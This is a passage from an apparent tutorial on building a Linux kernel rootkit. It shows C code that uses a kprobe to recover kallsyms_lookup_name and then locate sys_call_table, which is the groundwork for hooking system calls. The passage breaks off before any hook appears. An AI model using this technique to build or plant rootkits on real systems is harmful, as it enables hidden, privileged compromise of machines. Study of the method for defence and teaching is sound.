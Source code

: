 ```c
```
   To get the address of `kallsyms_lookup_name` symbol. As soon as storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now, so unregistering it.
```c
        kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;

        unregister_kprobe(&kp);
```
   As we have got the address of `kallsyms_lookup_name` symbol, now we can use this to get the address of `syscall table`.
```c
        syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```
   4. So the full code:
```c
        #include <linux/init.h>		/* Needed for the macros */
        #include <linux/module.h>	/* Needed by all modules */
        #include <linux/kernel.h>	/* Needed for printing log level messages */
        #include <linux/kprobes.h>

        // Setting which dynamic kernel symbol to find
          static struct kprobe kp = {
                    .symbol_name = "kallsyms_lookup_name"
          };

          // =================== Entry Function ====================

        static int __init rootkit_init(void)
        {
	        // For storing address of sys_call_table
	        unsigned long *syscall_table;
	
	        // Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
	
	        /* // Lookup the address for a symbol. Returns 0 if not found.
	         * unsigned long kallsyms_lookup_name(const char *name);
	         */
	        typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

	        kallsyms_lookup_name_t kallsyms_lookup_name;

	        // register_kprobe() specifies where the probe is to be inserted and what handler is to be called when the probe is hit.
	        register_kprobe(&kp);

	       /*
            * // pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kprobes.h
            * // https://elixir.bootlin.com/linux/v5.11/source/include/linux/kprobes.h#L62
            *
            * struct kprobe {
            *       ...
            *
            *       // location of the probe point
            *       kprobe_opcode_t *addr;
            *
            *       // Allow user to indicate symbol name of the probe point
            *       const char *symbol_name;
            *
            * 	      ...
            * 	};
            */
	
	        kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
```